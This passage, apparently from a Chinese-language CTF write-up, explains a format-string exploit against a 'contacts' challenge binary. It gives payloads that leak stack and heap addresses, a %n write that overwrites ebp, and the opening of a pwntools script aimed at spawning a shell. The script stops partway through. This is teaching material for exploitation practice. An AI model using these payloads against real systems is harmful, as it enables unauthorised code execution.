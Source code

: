 `
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
`

#### 构造联系人获取堆地址 

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的 ebp 地址。

`
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
`

来获取对应的相应的地址。后面的 bbbb 是为了接受字符串方便。

在部分环境下，system 地址会出现 \ x00，导致 printf 的时候出现 0 截断导致无法泄露两个地址，因此可以将 payload 的修改如下：

`
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
`

payload 修改为这样的话，还需要在 heap 上加入 12 的偏移。这样保证了 0 截断出现在泄露之后。

#### 修改 ebp

`
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
`

#### 获取 shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5，退出程序即会执行 ret 指令，就可以获取 shell。

```py
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


## get system addr & binsh_addr
payload = '%31$paaaa'
```